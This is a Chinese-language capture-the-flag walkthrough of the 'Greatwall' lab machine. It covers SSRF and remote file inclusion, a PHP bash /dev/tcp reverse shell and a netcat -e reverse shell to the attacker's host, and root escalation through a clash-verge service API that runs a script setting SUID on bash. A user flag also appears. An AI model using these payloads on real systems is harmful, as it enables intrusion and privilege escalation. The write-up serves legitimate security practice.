# Greatwall
nmap扫描

看一下web

第一感觉是ssrf

测试一下协议的使用file读取passwd,发现用户wall,暂时没想到拿shell的方式

接下来的想法:
1.端口探测(dict协议不给用,可能做了限制)dict://192.168.1.1:22,用http也没探出来个什么
2.ssh爆破(也没成功)
3.遍历读取源码(耗时,且盲目,暂时搁置)
4.gopher协议(没看到什么其他服务,无法获取shell)
5.file读取一些关键文件扩大信息
获取内核版本
```
Linux version 6.1.0-32-amd64 (debian-kernel@lists.debian.org) (gcc-12 (Debian 12.2.0-14) 12.2.0, GNU ld (GNU Binutils for Debian) 2.40) #1 SMP PREEMPT_DYNAMIC Debian 6.1.129-1 (2025-03-06)
```
其他的没读到什么
查找版本的漏洞
系统比较新,没啥符合的
读取file:///var/www/html/index.php时,一直不反回响应,看来是php搭建
试一下伪协议,也都不行,被过滤
试一下读日志/var/log/apache2/access.log
突然想到他是ssrf可以下载kali上的文件,我们只需要写一个反弹shell的脚本就行了
起一个python的http服务
文件内容:
```
<?php
exec("/bin/bash -c'bash -i >& /dev/tcp/192.168.111.128/4444 0>&1'");
?>
```
下载文件
```
/?page=http://192.168.111.128/reverse_shell.php
```
内容返回了,但是没shell弹回

访问触发代码,触发了还是不行?
设置了iptables难怪弹这么久的shell,弹不回来,尝试其他端口
使用nc通过22端口传输(不知道为啥用p指定22端口就不行,感觉直接报错不反弹了,版本不支持?搞不懂,只支持外联22?)
经测试,http服务需要用80端口,nc 用22端口才能弹回shell
```
nc 192.168.111.128 22 -e /bin/bash
```


产看sudo权限,可以以wall的权限做事(chmod赋予777权限即可)

没有python环境,升级shell
```
script -qc /bin/bash /dev/null
```
赋予wall文件777权限
```
sudo -u wall chmod 777 wall -R
```
获得user的flag{b088764475fa2a0a962fb9154f41c5b6}

看到文件下还有.ssh文件,可以通过ssh登录wall用户.两种方法传自己的公钥,或下载其私钥
将私钥文件下载,但是考虑到有防火墙22端口也无法使用,80也一样

想了一下能否将其移动到web目录下,直接下在,或者用php再起一个web
发现web的目录权限属于root无法复制过去

```
php -S 0.0.0.0:8080
```
依旧访问不了.....
那就直接粘贴复制自己的公钥到authorized_key(不知道为啥写进后任然需要密码)
那就复制私钥过来
踩坑:tmd将wall文件夹权限复原就行了上面两种就都可行
```
sudo -u wall chmod 700 wall -R
```

SSH 的安全保护机制
SSH（Secure Shell）协议设计有一个非常严格的安全规则：​如果密钥文件或目录的权限过于开放，它将直接拒绝使用这些文件进行认证。
应该是.ssh文件权限只能是wall用户的,chmod 700

有个小猫以root运行

但这这个咋提权?
运行后会开放端口?nmap扫描并没有
看一下服务开启情况

想起来前段时间它爆出个漏洞,去找一下

看到端口开放


可以指定二进制文件路径bin_path
```
curl -X POST "http://127.0.0.1:33211/start_clash" -H "Content-Type: application/json" -d '{
    "core_type": "verge-mihomo",
    "bin_path": "/tmp/hack.sh",
    "config_dir": "1",
    "config_file": "/tmp/hack.sh",
    "log_file": "/tmp/clash.log"
  }'
```
```
hack.sh:
#!/bin/bash
chmod +s /bin/bash
```
看下写的日志

成功赋予s权限

获得rootshell
```
bash -p
```
bash -p 的作用
​保持特权身份​：
通常情况下，当 SUID 位的程序（如 bash）启动时，出于安全原因，现代版本的 bash 会自动放弃由 SUID 带来的特权权限，回退到调用它的真实用户的权限。
​**-p 参数​ 会告诉 bash ​不要放弃这些特权权限**。如果成功，它将尝试维持其有效用户ID（通常是 root），从而提供一个具有 root 权限的 shell。



看一下防火墙配置


```
配置摘要分析
​默认策略（Default Policy）​: ​全部丢弃（DROP）​。这是最严格的策略，意味着所有未明确允许的流量都会被拒绝。
​表（Table）​: *filter 表示这是过滤表，负责包过滤（允许或拒绝）。
​三条内置链（Chains）​:
INPUT: 处理发往本机的流量。
OUTPUT: 处理从本机发出的流量。
FORWARD: 处理经过本机路由的流量（本机作为网关时使用）。此处默认拒绝且无规则，说明此服务器不是网络网关。
规则详解（Rule by Rule）
​INPUT 链（入站流量）​​
处理目标是本机的数据包。

-A INPUT -i lo -j ACCEPT
​含义​：接受所有来自环回接口（lo）的流量。
​分析​：允许本机内部进程间通信，这是必须的，否则很多本地服务会无法工作。
-A INPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
​含义​：接受所有属于已建立的（ESTABLISHED）​​ 或相关的（RELATED）​​ 连接的流量。
​分析​：这是防火墙的关键规则。它允许对外出请求的回应流量回到本机。例如，如果你从这台机器curl example.com，这条规则允许 example.com 的响应数据包进入。
-A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
​含义​：接受目标端口为 ​22 (SSH)​​ 的 TCP 流量。
​分析​：这是系统管理员远程管理服务器的入口。这是整个配置中唯一从外部访问本机的入口。
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
​含义​：接受目标端口为 ​80 (HTTP)​​ 的 TCP 流量。
​分析​：这台服务器很可能运行着一个Web服务器​（如Nginx、Apache），允许外界访问其HTTP网站服务。
:INPUT DROP [1:48]
​含义​：这是默认策略，INPUT链的最终动作是丢弃所有不匹配上述任何一条规则的数据包。
​OUTPUT 链（出站流量）​​
处理从本机发出的数据包。

-A OUTPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
​含义​：接受所有属于已建立的或相关的连接的流量。
​分析​：同样关键。它允许本机接收对外请求的响应（虽然响应是入站，但OUTPUT链也需处理连接跟踪的元数据）。
-A OUTPUT -o lo -j ACCEPT
​含义​：接受所有发往环回接口的流量。
​分析​：允许本机进程向本地其他进程发送数据。
-A OUTPUT -p tcp -m tcp --dport 22 -j ACCEPT
​含义​：允许本机向外部服务器的 ​22端口 (SSH)​​ 发起连接。
​分析​：这使得管理员可以从这台服务器通过SSH连接到其他机器​（例如，跳板机、git拉取代码等）。
-A OUTPUT -p tcp -m tcp --dport 80 -j ACCEPT
​含义​：允许本机向外部服务器的 ​80端口 (HTTP)​​ 发起连接。
​分析​：这使得这台服务器可以访问外部的HTTP服务，例如下载软件包（apt-get update）、调用API、获取网页内容等。
:OUTPUT DROP [4:176]
​含义​：这是默认策略，OUTPUT链的最终动作是丢弃所有不匹配上述任何一条规则的数据包。
​FORWARD 链​
:FORWARD DROP [0:0]
​含义​：默认拒绝且没有规则，直接丢弃所有需要转发的数据包。
​分析​：明确表示此服务器没有启用路由/转发功能，只是一台独立的主机。
```